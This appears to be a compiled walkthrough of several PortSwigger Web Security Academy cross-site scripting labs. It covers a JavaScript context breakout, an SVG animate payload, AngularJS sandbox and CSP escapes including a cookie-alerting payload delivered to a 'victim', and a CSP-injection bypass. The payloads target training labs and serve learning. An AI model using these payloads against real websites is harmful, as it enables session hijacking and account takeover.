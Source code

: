 **Step1**

To solve this lab first we view given payload
```
https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```
**Explanation**

Here is decoded payload
```
YOUR-LAB-ID.web-security-academy.net/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```
- Breaking out of the Current Context: The initial part of the payload is designed to break out of the current JavaScript context. This is crucial because we need to insert our own JavaScript code.
- Using Arrow Functions and Throw Statements: Arrow functions provide a compact way to define functions. The throw statement, combined with the onerror event handler, allows us to execute a function call (in this case, alert) without using parentheses or semicolons.
- Overwriting the toString Method: By overwriting the toString method, we can force the JavaScript engine to execute our code when an object is implicitly converted to a string.
- Forcing Type Conversion: Concatenating an object (like window) with an empty string triggers the toString method, which we've overwritten to execute our malicious code.

**Step-by-Step Explanation**

1. Breaking Out of the Current Context

%27}

- %27 is the URL-encoded form of ', which closes the current string or object.
- } closes any open block or object literal in JavaScript.

2. Defining and Assigning an Arrow Function

,x=x=%3E{throw/**/onerror=alert,1337}

- ,x= introduces a new variable x.
- x=%3E (which is x=>) defines x as an arrow function.
- {throw/**/onerror=alert,1337} is the body of the arrow function. It throws an error, which triggers the onerror handler.

/**/ is used to get round the no spaces restriction.

3. Overwriting the toString Method

,toString=x

- This assigns the arrow function x to the toString method of an object.
- When toString is called, it will execute the arrow function x.

4. Forcing Type Conversion

,window%2b%27%27

- ,window+'' forces the window object to be converted to a string.
- During this conversion, the toString method of window is called.

5. Completing the Syntax

,{x:%27

- ,{x:' starts a new object with a property x.
- This ensures that the injected code remains syntactically valid.



To trigger alert message click on back button on comment page



**Step1**

 try to inject `<a href="">Click me</a>`

Result show that this attribute is not allowed

**Step2:**

Check which tag are allowed. For this we use intruder, send the search request to intruder

For payload we copy all tag from xss portswigger cheat sheet

Paste this payload here

**Step3:**

From the above allowed attribute we make this tag

```
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a></svg>
```

URL encoded
```
%3Csvg%3E%3Ca%3E%3Canimate%20attributeName%3Dhref%20values%3Djavascript%3Aalert%281%29%20%2F%3E%3Ctext%20x%3D20%20y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E%3C%2Fsvg%3E%0A
```

Or
```
%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```

**Step1:**

First we try with the basic payload

If we view page source we can see

- AngularJS Module: Creates a new AngularJS module called labApp.
- Controller Definition: Defines a controller named vulnCtrl.
- Initialize Query: Sets up an empty object $scope.query.
- Set Search Value: Assigns a key search in $scope.query with an encoded script tag string (&lt;script&gt;alert(1)&lt;/script&gt;).
- Parse Value: Uses the $parse service to retrieve the value associated with the search key from $scope.query, assigning it to $scope.value.
- 
- Display in HTML: The `<h1>` element uses AngularJS binding to display {{value}}, which shows the script tag as text on the page.

**Step2:**

To solve this lab we cannot use string as it is we use any method.like encoding character and then access one by one.

Here is the code example
```
// Attempting to manipulate String prototype

String.prototype.charAt = [].join;

// This simulates what the injection could aim to execute

const injectedFunction = String.fromCharCode(120, 61, 97, 108, 101, 114, 116, 40, 49, 41);

// This would be equivalent to evaluating `alert(1)` in a context

console.log(eval(injectedFunction));
```
So when I try this in console it shows



Try to inject this in url search query parameter

**Step3:**
```
1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
And the lab is solved


**Step1:**

To solve this lab we use exploit used by Gareth Heyes Resercher

**Step2:**

`<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>`

To call it automatically we use

`<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>#x';`

**Step3:**

URL encode it and then set locationand send it to victim
```
%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
```
**Step4:**

Deliver this to victim
```
<script>

location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';

</script>
```
In my case
```
<script>

location='https://0ac0009e03b1c795834fdcbb006600a4.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';

</script>
```


**Step1:**

First we search for any thing



**Step2:**

Send the request to repeater



Try to change token as shown in response.



And it is working

**Step3:**

Now we change the content policy to

Content-Security-Policy: script-src-elem 'none'; script-src-attr 'unsafe-inline'

And try to  inject

`<video src=1 href=1 onerror="javascript:alert(1)"></video>`

Final payload:

`<video src=1 href=1 onerror="javascript:alert(1)"></video>&token= script-src-elem 'none'; script-src-attr 'unsafe-inline'`



And alert I trigger.
